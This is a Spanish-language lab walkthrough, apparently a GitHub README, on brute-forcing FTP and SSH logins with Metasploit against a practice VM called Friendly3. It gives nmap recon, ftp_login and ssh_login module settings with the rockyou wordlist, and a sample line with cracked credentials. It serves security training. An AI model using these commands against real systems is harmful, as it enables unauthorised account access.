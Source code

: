 # Ataques de Fuerza Bruta con Metasploit

Hacer ataques de fuerza bruta con la herramienta metasploit usando la máquina Friendly3 como objetivo.

#### 1. **Reconocimiento de la red y objetivo**

Usa herramientas como `arp-scan` y `ping` para encontrar la dirección IP de la máquina objetivo y comprobar la conectividad.

```bash
└─# arp-scan -I eth0 --localnet
└─# ping -c 1 192.168.1.29
```

#### 2. **Escaneo de puertos con Nmap**

Realiza un escaneo de puertos abiertos para identificar servicios en la máquina objetivo. Utiliza el siguiente comando de Nmap:

```bash
└─# nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.29
```

Este comando identifica los servicios abiertos, como **FTP** en el puerto 21 y **SSH** en el puerto 22, que serán nuestros objetivos para el ataque de fuerza bruta.

#### 3. **Iniciar Metasploit y configurar el módulo FTP para fuerza bruta**

Abre Metasploit y busca el módulo adecuado para realizar fuerza bruta en el servicio **FTP**:

```bash
└─# msfconsole
msf6 > search ftp_login
msf6 > use auxiliary/scanner/ftp/ftp_login
```

#### 4. **Configurar los parámetros del módulo FTP**

Configura el módulo con los siguientes parámetros, ajustando los valores según tu caso:

```bash
msf6 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ftp/ftp_login) > set USERNAME juan
msf6 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.1.29
msf6 auxiliary(scanner/ftp/ftp_login) > run
```

Este comando intentará realizar un ataque de fuerza bruta usando el archivo `rockyou.txt` como diccionario de contraseñas para el usuario `juan`.

#### 5. **Realizar ataque de fuerza bruta contra SSH**

El procedimiento para **SSH** es similar al de FTP. Busca y configura el módulo de fuerza bruta para SSH:

```bash
msf6 > search ssh_login
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.29
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME juan
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

#### 6. **Resultado esperado**

Si el ataque es exitoso, obtendrás un acceso con credenciales válidas. Aquí un ejemplo del éxito en SSH:

```bash
[+] 192.168.1.29:22 - Success: 'juan:alexis' 'uid=1001(juan) gid=1001(juan) groups=1001(juan)'
```

Este proceso te brinda acceso al sistema si alguna de las contraseñas del diccionario coincide con la del servicio atacado.

También se podría hacer fuerza bruta de usuarios.
